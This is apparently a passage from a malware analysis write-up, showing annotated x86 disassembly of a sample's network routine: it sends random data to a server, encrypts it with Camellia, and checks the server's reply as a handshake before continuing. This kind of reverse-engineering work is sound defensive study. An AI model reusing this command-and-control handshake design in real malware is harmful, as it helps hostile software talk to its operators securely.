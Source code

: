 ```
.data:00400851 send_data:                              ; CODE XREF: Network+29B↑j
.data:00400851                                         ; Network+360↑j ...
.data:00400851      lea     edi, [ebp+data_to_send]
.data:00400857      xor     ecx, ecx
.data:00400859
.data:00400859 process_data_to_send:
.data:00400859      push    esi
.data:0040085A      call    [esi+BUFFER_1.ptr_sub_4010dc_CryptoRandom2] ; 0x4010dc
.data:00400860      mov     [ecx+edi], eax
.data:00400863      mov     [ecx+edi+4], edx
.data:00400867      add     ecx, 8
.data:0040086A      cmp     ecx, 100h
.data:00400870      jnz     short process_data_to_send
```

Following that, data are finally sent:

```
.data:00400872      push    100h            ; size of data
.data:00400877      push    edi             ; random data
.data:00400878      push    [ebp+socket]
.data:0040087B      push    1               ; flag 1 = send (0 = recv)
.data:0040087D      push    esi             ; base buffer 1
.data:0040087E      call    [esi+BUFFER_1.ptr_sub_4009d3_NetworkSendOrRecv] ; 4009d3
```

Next, the malware: 

1. Uses `CamelliaEncrypt()` on the data already sent
2. Receive data from the server
3. Compare both

```
; encrypt
.data:00400886 encrypt_dafuck:
.data:00400886      push    esi
.data:00400887      lea     eax, [esi+BUFFER_1.camellia]
.data:0040088D      push    eax
.data:0040088E      push    edi
.data:0040088F      push    edi             ; encrypt the random data
.data:00400890      call    [esi+BUFFER_1.ptr_sub_400cf4_CamelliaEncrypt] ; 0x400cf4
.data:00400896      add     edi, 10h
.data:00400899      add     ecx, 1
.data:0040089C      cmp     ecx, 10h
.data:0040089F      jnz     short encrypt_dafuck

; receive
.data:004008A1      push    100h        ; size of buffer
.data:004008A6      lea     eax, [ebp+encrypted_data_recv]
.data:004008AC      push    eax         ; data to receive
.data:004008AD      push    [ebp+socket]
.data:004008B0      push    0           ; flag 0 = recv
.data:004008B2      push    esi         ; base buffer 1
.data:004008B3      call    [esi+BUFFER_1.ptr_sub_4009d3_NetworkSendOrRecv] ; 4009d3
.data:004008B9      push    esi

; compare
.data:004008BA      cld
.data:004008BB      mov     ecx, 40h
.data:004008C0      lea     esi, [ebp+data_to_send] ; now encrypted
.data:004008C6      lea     edi, [ebp+encrypted_data_recv]
.data:004008CC      repe cmpsd
.data:004008CE      jz      short data_match
.data:004008D0      pop     esi
.data:004008D1      mov     [ebp+sleep_time], 7530h
.data:004008DB      jmp     short close_socket_and_sleep
```